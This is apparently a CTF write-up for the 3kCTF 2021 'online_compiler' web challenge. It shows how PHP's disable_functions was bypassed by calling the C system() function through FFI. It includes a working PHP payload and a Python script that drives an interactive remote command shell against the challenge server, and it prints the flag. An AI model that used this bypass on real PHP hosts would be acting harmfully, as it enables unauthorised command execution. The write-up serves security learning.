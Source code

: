 ## (Web) online_compiler [425 pts]

The online_compiler challenge is bypass the disable_functions and get the flag.

First at challenge, Given the back-end code and php.ini file. When execute the php code at back-end you just need to checked the execute based on php.ini file. If u check the php.ini file, you will see many functions are disabled based on disable_functions. Deservedly, Was disabled function that shell command can be execute.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/1.png)
But, Because `phpinfo()` is not disabled, I can check the PHP Version as above and can know using the `7.4.X` version in server. So, I did a search for vulnerabilities that occur in that version.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-16%20%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE%207.00.45.png)
![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.43.32.png?raw=true)
I found content as above while gooling. I did a gooling keyword is `php 7.4 disable_functions bypass`. As above content is one among several bypass list. So, I checked `FFI` in `phpinfo()` and it was enabled.

![](https://github.com/wjddnjs33/image/blob/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.31.49.png?raw=true)
I did say without thinking `"This seem the most possible"` to jingyu bro on may 7 pm 7 hour. Fucking, After that, I did googling for another 2 hour.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.30.48.png)
First, I first looked at FFI and it stands for Foreign function interface, which is an external function interface, but I didn’t know how to use it. Then I found a strange article, and I could see the cdef() method used in the FFI class. It can be seen that an object is created by inserting a C language function prototype as the argument value of cdef(), and an external function is executed by referring to the function prototype created from the object.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.39.19.png)
The prototype of the C Language system() function was as above. It seems like it was because I didn’t do it as a pointer variable when I just did `const char command’.

```php
<?php 
  $ffi=FFI::cdef("int system(const char *command);");
  $ffi->system('ls');
?>
```
So, as a result, the payload was written as above. At first, like the picture above, the library file was also passed as a parameter, but it didn’t work well when passed. Probably because there is no file in the same path, it seems like that, but even without it, there was no problem.

![](https://raw.githubusercontent.com/P0cas/image/main/3kctf%202021/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA%202021-05-17%20%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB%202.50.22.png)
When I wrote the code in Python and checked it, the El_FlAAG___FilEE file existed in the upper directory. So when I read the file, a flag came out. In the end, it was correct that I did say to jingyu bro on 7 pm earlier. zz

```python
import requests
from pwn import *

url = 'http://onlinecompiler.2021.3k.ctf.to:5000/'
path = ['save', 'compile']

while(1):
    command = raw_input("pocas@py : ")
    c_type, code = 'php', '<?php $ffi=FFI::cdef("int system(const char *command);");$ffi->system(\'{}\');?>'.format(command)
    body1 = {'c_type':c_type, 'code':code}

    # save     filename = requests.post(url + path[0], data=body1).text
    log.info("Exploitation")
    log.info("filename : " + filename)

    # compile     body2 = {'c_type':c_type, 'filename':filename}
    result = requests.post(url + path[1], data=body2).text.replace('\n', ' ')
    log.info("result : " + result)
```
```txt
3k{JuSt_A_WaRmUp_O.o}
```

